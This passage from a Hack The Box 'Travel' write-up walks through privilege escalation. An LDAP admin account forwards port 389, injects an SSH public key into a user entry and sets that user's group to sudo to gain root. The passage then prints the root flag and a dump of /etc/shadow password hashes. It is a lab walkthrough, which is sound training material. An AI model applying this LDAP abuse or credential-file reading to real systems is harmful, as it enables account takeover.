dn: uid=jane,ou=users,ou=linux,ou=servers,dc=travel,dc=htb uid: jane uidNumber: 5005 homeDirectory: /home/jane givenName: Jane gidNumber: 5000 sn: Rodriguez cn: Jane Rodriguez objectClass: top objectClass: person objectClass: organizationalPerson objectClass: inetOrgPerson objectClass: posixAccount objectClass: shadowAccount loginShell: /bin/bash

## brian, users, linux, servers, travel.htb

dn: uid=brian,ou=users,ou=linux,ou=servers,dc=travel,dc=htb uid: brian cn: Brian Bell sn: Bell givenName: Brian loginShell: /bin/bash uidNumber: 5002 gidNumber: 5000 homeDirectory: /home/brian objectClass: top objectClass: person objectClass: organizationalPerson objectClass: inetOrgPerson objectClass: posixAccount objectClass: shadowAccount

## frank, users, linux, servers, travel.htb

dn: uid=frank,ou=users,ou=linux,ou=servers,dc=travel,dc=htb uid: frank cn: Frank Stewart sn: Stewart givenName: Frank loginShell: /bin/bash uidNumber: 5001 gidNumber: 5000 homeDirectory: /home/frank objectClass: top objectClass: person objectClass: organizationalPerson objectClass: inetOrgPerson objectClass: posixAccount objectClass: shadowAccount

## jerry, users, linux, servers, travel.htb

dn: uid=jerry,ou=users,ou=linux,ou=servers,dc=travel,dc=htb uid: jerry uidNumber: 5006 homeDirectory: /home/jerry givenName: Jerry gidNumber: 5000 sn: Morgan cn: Jerry Morgan objectClass: top objectClass: person objectClass: organizationalPerson objectClass: inetOrgPerson objectClass: posixAccount objectClass: shadowAccount loginShell: /bin/bash

## lynik, users, linux, servers, travel.htb

dn: uid=lynik,ou=users,ou=linux,ou=servers,dc=travel,dc=htb uid: lynik uidNumber: 5000 homeDirectory: /home/lynik givenName: Lynik gidNumber: 5000 sn: Schmidt cn: Lynik Schmidt objectClass: top objectClass: person objectClass: organizationalPerson objectClass: inetOrgPerson objectClass: posixAccount objectClass: shadowAccount loginShell: /bin/bash

## edward, users, linux, servers, travel.htb

dn: uid=edward,ou=users,ou=linux,ou=servers,dc=travel,dc=htb uid: edward uidNumber: 5009 homeDirectory: /home/edward givenName: Edward gidNumber: 5000 sn: Roberts cn: Edward Roberts objectClass: top objectClass: person objectClass: organizationalPerson objectClass: inetOrgPerson objectClass: posixAccount objectClass: shadowAccount loginShell: /bin/bash

## eugene, users, linux, servers, travel.htb

dn: uid=eugene,ou=users,ou=linux,ou=servers,dc=travel,dc=htb uid: eugene cn: Eugene Scott sn: Scott givenName: Eugene loginShell: /bin/bash uidNumber: 5008 gidNumber: 5000 homeDirectory: /home/eugene objectClass: top objectClass: person objectClass: organizationalPerson objectClass: inetOrgPerson objectClass: posixAccount objectClass: shadowAccount

## gloria, users, linux, servers, travel.htb

dn: uid=gloria,ou=users,ou=linux,ou=servers,dc=travel,dc=htb uid: gloria uidNumber: 5010 homeDirectory: /home/gloria givenName: Gloria gidNumber: 5000 sn: Wood cn: Gloria Wood objectClass: top objectClass: person objectClass: organizationalPerson objectClass: inetOrgPerson objectClass: posixAccount objectClass: shadowAccount loginShell: /bin/bash

## johnny, users, linux, servers, travel.htb

dn: uid=johnny,ou=users,ou=linux,ou=servers,dc=travel,dc=htb uid: johnny cn: Johnny Miller sn: Miller givenName: Johnny loginShell: /bin/bash uidNumber: 5004 gidNumber: 5000 homeDirectory: /home/johnny objectClass: top objectClass: person objectClass: organizationalPerson objectClass: inetOrgPerson objectClass: posixAccount objectClass: shadowAccount

## louise, users, linux, servers, travel.htb

dn: uid=louise,ou=users,ou=linux,ou=servers,dc=travel,dc=htb uid: louise cn: Louise Griffin sn: Griffin givenName: Louise loginShell: /bin/bash uidNumber: 5007 gidNumber: 5000 homeDirectory: /home/louise objectClass: top objectClass: person objectClass: organizationalPerson objectClass: inetOrgPerson objectClass: posixAccount objectClass: shadowAccount

## christopher, users, linux, servers, travel.htb

dn: uid=christopher,ou=users,ou=linux,ou=servers,dc=travel,dc=htb uid: christopher uidNumber: 5003 homeDirectory: /home/christopher givenName: Christopher gidNumber: 5000 sn: Ward cn: Christopher Ward objectClass: top objectClass: person objectClass: organizationalPerson objectClass: inetOrgPerson objectClass: posixAccount objectClass: shadowAccount loginShell: /bin/bash

## domainusers, groups, linux, servers, travel.htb

dn: cn=domainusers,ou=groups,ou=linux,ou=servers,dc=travel,dc=htb memberUid: frank memberUid: brian memberUid: christopher memberUid: johnny memberUid: julia memberUid: jerry memberUid: louise memberUid: eugene memberUid: edward memberUid: gloria memberUid: lynik gidNumber: 5000 cn: domainusers objectClass: top objectClass: posixGroup

## search result

search: 2 result: 0 Success

## numResponses: 22

## numEntries: 21

```text
> This time the bind was successful and we receive data. We also see that the user lynik-admin is an LDAP administrator.
> This will allow us to edit user attributes stored in LDAP. Let's try to change a user's password. We
> can use a GUI utility such as Apache Directory Studio to make it easier to browse and edit the
> directory.

can modify ldap with https://directory.apache.org/studio/downloads.html

need to port forward 389 (need sudo rights for low port)

tried portforwarding using localhost and 127.0.0.1, but failed to connect, checked ip a and /etc/hosts to find out more and noticed 172.20.0.10
```

lynik-admin@travel:/var$ ip a 1: lo:  mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000 link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00 inet 127.0.0.1/8 scope host lo valid\_lft forever preferred\_lft forever 2: eth0:  mtu 1500 qdisc fq\_codel state UP group default qlen 1000 link/ether 00:50:56:b9:bc:d0 brd ff:ff:ff:ff:ff:ff inet 10.10.10.189/24 brd 10.10.10.255 scope global eth0 valid\_lft forever preferred\_lft forever 3: docker0:  mtu 1500 qdisc noqueue state DOWN group default link/ether 02:42:eb:d3:9e:f4 brd ff:ff:ff:ff:ff:ff inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0 valid\_lft forever preferred\_lft forever 4: br-836575a2ebbb:  mtu 1500 qdisc noqueue state UP group default link/ether 02:42:0e:57:82:22 brd ff:ff:ff:ff:ff:ff inet 172.20.0.1/24 brd 172.20.0.255 scope global br-836575a2ebbb valid\_lft forever preferred\_lft forever 5: br-8ec6dcae5ba1:  mtu 1500 qdisc noqueue state UP group default link/ether 02:42:62:92:81:b4 brd ff:ff:ff:ff:ff:ff inet 172.30.0.1/24 brd 172.30.0.255 scope global br-8ec6dcae5ba1 valid\_lft forever preferred\_lft forever 7: vetha779908@if6:  mtu 1500 qdisc noqueue master br-8ec6dcae5ba1 state UP group default link/ether 72:de:2f:8b:3d:cc brd ff:ff:ff:ff:ff:ff link-netnsid 0 9: vethef87583@if8:  mtu 1500 qdisc noqueue master br-8ec6dcae5ba1 state UP group default link/ether 1a:aa:24:64:cc:d9 brd ff:ff:ff:ff:ff:ff link-netnsid 1 11: vethad21680@if10:  mtu 1500 qdisc noqueue master br-836575a2ebbb state UP group default link/ether d2:d3:97:5f:1e:6d brd ff:ff:ff:ff:ff:ff link-netnsid 2 13: vethd1561b2@if12:  mtu 1500 qdisc noqueue master br-8ec6dcae5ba1 state UP group default link/ether da:10:aa:7a:cb:5f brd ff:ff:ff:ff:ff:ff link-netnsid 3 15: veth5af27ca@if14:  mtu 1500 qdisc noqueue master br-8ec6dcae5ba1 state UP group default link/ether 02:e7:02:1d:f1:36 brd ff:ff:ff:ff:ff:ff link-netnsid 5 17: veth94d1920@if16:  mtu 1500 qdisc noqueue master br-8ec6dcae5ba1 state UP group default link/ether e6:86:a7:88:79:dd brd ff:ff:ff:ff:ff:ff link-netnsid 4 lynik-admin@travel:/var$ cat /etc/hosts 127.0.0.1 localhost 127.0.1.1 travel 172.20.0.10 ldap.travel.htb

## The following lines are desirable for IPv6 capable hosts

::1 ip6-localhost ip6-loopback fe00::0 ip6-localnet ff00::0 ip6-mcastprefix ff02::1 ip6-allnodes ff02::2 ip6-allrouters

```text
checked `ip a` and /etc/hosts to find out more and noticed 172.20.0.10
```

┌──\(zweilos㉿kali\)-\[~/htb/travel\] └─$ sudo ssh -L 389:172.20.0.10:389 lynik-admin@10.10.10.189 \[sudo\] password for zweilos: The authenticity of host '10.10.10.189 \(10.10.10.189\)' can't be established. ECDSA key fingerprint is SHA256:KSjh2mhuESUZQcaB1ewLHie9gTUCmvOlypvBpcyAF/w. Are you sure you want to continue connecting \(yes/no/\[fingerprint\]\)? yes Warning: Permanently added '10.10.10.189' \(ECDSA\) to the list of known hosts. lynik-admin@10.10.10.189's password: Welcome to Ubuntu 20.04 LTS \(GNU/Linux 5.4.0-26-generic x86\_64\)

System information as of Sat 19 Sep 2020 03:46:50 PM UTC

System load: 0.0 Usage of /: 46.0% of 15.68GB Memory usage: 11% Swap usage: 0% Processes: 198 Users logged in: 0 IPv4 address for br-836575a2ebbb: 172.20.0.1 IPv4 address for br-8ec6dcae5ba1: 172.30.0.1 IPv4 address for docker0: 172.17.0.1 IPv4 address for eth0: 10.10.10.189

Last login: Sat Sep 19 15:46:18 2020 from 10.10.15.53 lynik-admin@travel:~$

```text
login as `lynik` failed with password, but it says that only an ssh key can be used to login

https://serverfault.com/questions/653792/ssh-key-authentication-using-ldap


> According to the sshd_config manpage, the AuthorizedKeysCommand configuration is used to
> specify the program from which the SSH server retrieves user public keys from.
> The sss_ssh_authorizedkeys utility retrieves user public keys from the specified domain.
> According to the documentation, SSH public keys can be stored in the sshPublicKey attribute in
> LDAP.

Next I tried adding the public key attribute to the `lynik` user. First, I had to add a new objectClass attribute then select ldapPublicKey
After that I added the attribute sshPublicKey to `lynik` and clicked on `Edit as Text` in the editor and paste the public key.

searching for ssh keys and ldap led to https://serverfault.com/questions/653792/ssh-key-authentication-using-ldap which shows that it is possible to add keys through ldap

pictures

## enumeration as `lynik`
```

┌──\(zweilos㉿kali\)-\[~/htb/travel\] └─$ ssh lynik@10.10.10.189 -i lynik Creating directory '/home@TRAVEL/lynik'. Welcome to Ubuntu 20.04 LTS \(GNU/Linux 5.4.0-26-generic x86\_64\)

System information as of Sat 19 Sep 2020 04:07:29 PM UTC

System load: 0.0 Usage of /: 46.0% of 15.68GB Memory usage: 11% Swap usage: 0% Processes: 201 Users logged in: 1 IPv4 address for br-836575a2ebbb: 172.20.0.1 IPv4 address for br-8ec6dcae5ba1: 172.30.0.1 IPv4 address for docker0: 172.17.0.1 IPv4 address for eth0: 10.10.10.189

```text
      *** Travel.HTB News Flash ***
```

We are currently experiencing some delay in domain replication times of about 3-5 seconds. Sorry for the inconvenience. Kind Regards, admin

The programs included with the Ubuntu system are free software; the exact distribution terms for each program are described in the individual files in /usr/share/doc/\*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by applicable law.

lynik@travel:~$ id uid=5000\(lynik\) gid=5000\(domainusers\) groups=5000\(domainusers\) lynik@travel:~$

```text
Since this user is an ldap admin and can modify anything, I tried setting lynik uid and gid to 0 (root) but then was denied ssh login due to configuration to deny root login;
```

lynik@travel:/var$ cat /etc/group root:x:0: daemon:x:1: bin:x:2: sys:x:3: adm:x:4:syslog,trvl-admin tty:x:5: disk:x:6: lp:x:7: mail:x:8: news:x:9: uucp:x:10: man:x:12: proxy:x:13: kmem:x:15: dialout:x:20: fax:x:21: voice:x:22: cdrom:x:24:trvl-admin floppy:x:25: tape:x:26: sudo:x:27:trvl-admin audio:x:29: dip:x:30:trvl-admin www-data:x:33: backup:x:34: operator:x:37: list:x:38: irc:x:39: src:x:40: gnats:x:41: shadow:x:42: utmp:x:43: video:x:44: sasl:x:45: plugdev:x:46:trvl-admin staff:x:50: games:x:60: users:x:100: nogroup:x:65534: systemd-journal:x:101: systemd-network:x:102: systemd-resolve:x:103: systemd-timesync:x:104: crontab:x:105: messagebus:x:106: input:x:107: kvm:x:108: render:x:109: syslog:x:110: tss:x:111: uuidd:x:112: tcpdump:x:113: ssh:x:114: landscape:x:115: lxd:x:116:trvl-admin systemd-coredump:x:999: trvl-admin:x:1000: lynik-admin:x:1001: docker:x:117: sssd:x:118:

```text
I checked sudoers file and saw that admins and members of sudo group can run all commands as root so I changed group id to 27 (sudo) then logout and back in
```

┌──\(zweilos㉿kali\)-\[~/htb/travel\] └─$ ssh lynik@10.10.10.189 -i lynik Welcome to Ubuntu 20.04 LTS \(GNU/Linux 5.4.0-26-generic x86\_64\)

System information as of Sat 19 Sep 2020 04:12:42 PM UTC

System load: 0.06 Usage of /: 46.0% of 15.68GB Memory usage: 11% Swap usage: 0% Processes: 197 Users logged in: 1 IPv4 address for br-836575a2ebbb: 172.20.0.1 IPv4 address for br-8ec6dcae5ba1: 172.30.0.1 IPv4 address for docker0: 172.17.0.1 IPv4 address for eth0: 10.10.10.189

Last login: Sat Sep 19 16:12:03 2020 from 10.10.15.53 To run a command as administrator \(user "root"\), use "sudo ". See "man sudo\_root" for details.

lynik@travel:~$ id uid=5000\(lynik\) gid=27\(sudo\) groups=27\(sudo\),5000\(domainusers\)

┌──\(zweilos㉿kali\)-\[~/htb/travel\] └─$ ssh lynik@10.10.10.189 -i lynik Welcome to Ubuntu 20.04 LTS \(GNU/Linux 5.4.0-26-generic x86\_64\)

System information as of Sat 19 Sep 2020 04:12:42 PM UTC

System load: 0.06 Usage of /: 46.0% of 15.68GB Memory usage: 11% Swap usage: 0% Processes: 197 Users logged in: 1 IPv4 address for br-836575a2ebbb: 172.20.0.1 IPv4 address for br-8ec6dcae5ba1: 172.30.0.1 IPv4 address for docker0: 172.17.0.1 IPv4 address for eth0: 10.10.10.189

Last login: Sat Sep 19 16:12:03 2020 from 10.10.15.53 To run a command as administrator \(user "root"\), use "sudo ". See "man sudo\_root" for details.

lynik@travel:~$ id uid=5000\(lynik\) gid=27\(sudo\) groups=27\(sudo\),5000\(domainusers\)

```text
### Getting a shell

after adding this user to the sudoers group:
```

lynik@travel:~$ sudo -l \[sudo\] password for lynik: Matching Defaults entries for lynik on travel: env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lynik may run the following commands on travel: \(ALL : ALL\) ALL lynik@travel:~$ sudo su - root@travel:~\# cat root.txt 550099de4950e4d03a939943ad265eb0

```text
### Root.txt

NOT PART OF WRITEUP
```

lynik@travel:/var$ sudo cat /etc/shadow root:$6$p6a8fCN5/L4rm3FA$bwV15SC9j7QwaRwolnptinKydaRp9O3826E8QlFyrVmjxoaIvs6A.Aw7Z/VCRgGXu0cjLYfmznespEhTS8ZUe/:18397:0:99999:7::: daemon:_:18375:0:99999:7::: bin:_:18375:0:99999:7::: sys:_:18375:0:99999:7::: sync:_:18375:0:99999:7::: games:_:18375:0:99999:7::: man:_:18375:0:99999:7::: lp:_:18375:0:99999:7::: mail:_:18375:0:99999:7::: news:_:18375:0:99999:7::: uucp:_:18375:0:99999:7::: proxy:_:18375:0:99999:7::: www-data:_:18375:0:99999:7::: backup:_:18375:0:99999:7::: list:_:18375:0:99999:7::: irc:_:18375:0:99999:7::: gnats:_:18375:0:99999:7::: nobody:_:18375:0:99999:7::: systemd-network:_:18375:0:99999:7::: systemd-resolve:_:18375:0:99999:7::: systemd-timesync:_:18375:0:99999:7::: messagebus:_:18375:0:99999:7::: syslog:_:18375:0:99999:7::: \_apt:_:18375:0:99999:7::: tss:_:18375:0:99999:7::: uuidd:_:18375:0:99999:7::: tcpdump:_:18375:0:99999:7::: landscape:_:18375:0:99999:7::: pollinate:_:18375:0:99999:7::: sshd:_:18375:0:99999:7::: systemd-coredump:!!:18375:::::: trvl-admin:$6$bUFYK4oYT.zHHNS0$dphmYazflDpzFBhBjs47RuX1E1gLoGbM1cpIHKTelSGLL0Om5suPH6Sp7gyFGxq21R/YfqoOu5WNf8y5IoKsx.:18375:0:99999:7::: lxd:!:18375:::::: lynik-admin:$6$uCqqXDwiD4ZkQXYX$umY1zXMfcaWTgiNcvGrqO9DQSysYAZWp.VVLr2aj/lssN67EPiENanfCFgZBSsEakZNmF4E1kz6VaKft2gXNX.:18376:0:99999:7::: dnsmasq:_:18375:0:99999:7::: sssd:\*:18375:0:99999:7:::

\`\`\`

Thanks to xct [`xct`](https://www.hackthebox.eu/home/users/profile/13569) & [`jkr`](https://www.hackthebox.eu/home/users/profile/77141) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

